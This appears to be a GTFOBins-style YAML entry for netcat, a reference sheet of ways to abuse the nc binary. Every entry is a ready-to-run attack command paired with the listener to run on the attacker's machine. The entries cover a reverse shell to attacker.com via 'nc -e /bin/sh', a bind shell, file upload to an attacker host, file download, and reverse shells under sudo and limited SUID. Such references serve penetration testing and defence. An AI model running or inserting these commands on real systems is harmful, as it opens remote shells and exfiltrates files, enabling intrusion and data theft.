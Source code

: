 ```yaml
---
name: nc
functions:
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
      code: |
        RHOST=attacker.com
        RPORT=12345
        nc -e /bin/sh $RHOST $RPORT
  bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This only works with netcat traditional.
      code: |
        LPORT=12345
        nc -l -p $LPORT -e /bin/sh
  file-upload:
    - description: Send a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        nc $RHOST $RPORT < "$LFILE"
  file-download:
    - description: Fetch remote file sent to a local TCP port. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        LPORT=12345
        LFILE=file_to_save
        nc -l -p $LPORT > "$LFILE"
  sudo:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
      code: |
        RHOST=attacker.com
        RPORT=12345
        sudo nc -e /bin/sh $RHOST $RPORT
  limited-suid:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./nc -e /bin/sh $RHOST $RPORT
---
```

